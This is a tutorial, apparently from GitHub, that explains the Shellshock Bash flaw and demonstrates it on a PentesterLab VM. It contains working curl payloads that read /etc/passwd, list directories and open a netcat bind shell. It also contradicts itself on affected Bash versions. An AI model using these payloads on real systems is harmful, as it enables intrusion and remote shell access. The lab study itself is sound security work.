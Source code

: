 Shellshock Explained + Exploitation Tutorial
##Introduction
Shellshock is a “code injection attack” that takes advantage of a function definition vulnerability in Bash 4.3 and earlier.<br>
The vulnerability is caused by Bash processing trailing strings after function definitions in the values of environment variables. In Bash 4.3 and later, these trailing strings will not be executed.
##Testing
To test if your system is vulnerable, simply run the command below in a Bash shell.
<code>
<div class="code">
user@debian8:~$ <com>env x='() { :;}; echo vulnerable' bash -c "echo not-vulnerable"</com>
</div>
</code>
If 'vulnerable' is echoed back, your system is vulnerable, since echo vulnerable is directly after the function definition env x='() { :;};<br>
A response of 'not-vulnerable' indicates your system is not vulnerable to the test above.<br>
Note: Additional tests should be performed to confirm your system is not vulnerable to Shellshock.<br>
These tests can be found on the Shellshocker Website - <https://shellshocker.net/>
##Exploitation
Launch the 'Pentester Lab: CVE-2014-6271 Shellshock' VM (<https://pentesterlab.com/exercises/cve-2014-6271>) then browse to the VM’s IP in your web-browser.<br>
You will be presented with the output of the [uptime] and [uname -a] Linux commands, running on the Pentesterlab VM.

> CVE-2014-6271<br>
> This system is running:<br>
> uptime: 20:44:15 up 0 min, 1 users, load average: 0.06, 0.01, 0.00<br>
> kernel: Linux vulnerable 3.14.1-pentesterlab #1 SMP Sun Jul 6 09:16:00 EST 2014 i686 GNU/Linux<br>

View the page source and you’ll notice the location of the CGI (<http://www.techrepublic.com/article/cgi-crash-course-how-to-run-cgi-scripts/>) script that is executed on the server.

> $.getJSON("/cgi-bin/status", function (data) {<br>

Let’s use curl to launch a few shellshock attacks against the status CGI script via the User-Agent string (-A in curl).
##Passwd File
<code>
<div class="code">
user@debian8:~$ <com>curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/cat /etc/passwd' http://192.168.1.14/cgi-bin/status > passwd</com><br>
<br>
user@debian8:~$ <com>cat passwd</com><br>
root:x:0:0:root:/root:/bin/sh<br>
lp:x:7:7:lp:/var/spool/lpd:/bin/sh<br>
nobody:x:65534:65534:nobody:/nonexistent:/bin/false<br>
tc:x:1001:50:Linux User,,,:/home/tc:/bin/sh<br>
pentesterlab:x:1000:50:Linux User,,,:/home/pentesterlab:/bin/sh 
</div>
</code>
##Directory Listing
<code>
<div class="code">
user@debian8:~$ <com>curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/ls /' http://192.168.1.14/cgi-bin/status</com><br>
bin<br>
boot<br>
dev<br>
etc<br>
home<br>
init<br>
...
</div>
</code>
##Bind Shell
Bind an instance of Bash to a netcat listener on port 2345 and connect.<br>
After executing the bind shell on the Shellshock VM (/usr/bin/nc -lvvp 2345 -e /bin/bash) you will need to open a new terminal window to connect using (nc -vn 192.168.1.14 2345)
<code>
<div class="code">
user@debian8:~$ <com>curl -A '() { :; }; /bin/bash -c "/usr/bin/nc -lvvp 2345 -e /bin/bash"' http://192.168.1.14/cgi-bin/status</com><br>
<br>
user@debian8:~$ <com>nc -vn 192.168.1.14 2345</com><br>
(UNKNOWN) [192.168.1.14] 2345 (?) open<br>
<br>
<com>whoami</com><br>
<com>pentesterlab</com><br>
<br>
<com>/sbin/ifconfig</com><br>
[eth0]<br>
Link encap:Ethernet HWaddr 08:00:27:84:1F:23<br>
inet addr:192.168.1.14 Bcast:192.168.1.255 Mask:255.255.255.0<br>
inet6 addr: fe80::a00:27ff:fe84:1f23/64 Scope:Link<br>
UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1<br>
RX packets:742 errors:0 dropped:0 overruns:0 frame:0<br>
TX packets:426 errors:0 dropped:0 overruns:0 carrier:0<br>
collisions:0 txqueuelen:1000<br>
RX bytes:57418 (56.0 KiB) TX bytes:246492 (240.7 KiB)<br>
Interrupt:10 Base address:0xd020
</div>
</code>
##Conclusion
The examples above demonstrate a tiny fraction of what is possible using the Shellshock vulnerability.<br>
<br>
Additional attack vectors include:<br>
– OpenSSH server<br>
– DHCP clients<br>
– Qmail server<br>
– IBM HMC restricted shell<br>
<br>
If your system is vulnerable, ensure it is patched immediately by upgrading your version of Bash then re-testing.
Tags: shellshock
